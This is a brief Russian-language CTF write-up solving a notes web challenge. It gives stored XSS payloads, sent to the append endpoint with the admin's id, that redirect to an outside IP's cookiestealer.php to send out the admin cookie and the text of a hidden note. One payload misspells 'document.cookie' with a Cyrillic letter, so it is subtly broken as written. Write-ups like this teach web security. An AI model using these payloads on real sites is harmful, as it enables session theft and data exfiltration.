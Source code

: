 1. Находим дополнительных флаг нажав кнопку append c незаполненным полем.

2. Проверям на xss передав <script>alert("TEST");</script> в notes. Видим, что проэксплуатировать его здесь получиться.

3. Видим, что http://notes.ctf2019.rocks/append принимает id юзера в параметрах. Из исходного кода страницы находим,
что у admin-а id=1.

4. Забираем куку админа передав в http://notes.ctf2019.rocks/append параметры 
append=<script>document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.сokkie);</script>
&id=1   
и получаем доп флаг.

5. Смотрим js path к hidden записи админа.
Передаем  в http://notes.ctf2019.rocks/append параметры 
append=<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.querySelector('body > div:nth-child(2) > div:nth-child(1) > p:nth-child(2)').innerText);</script>
&id=1 
и получаем влаг.

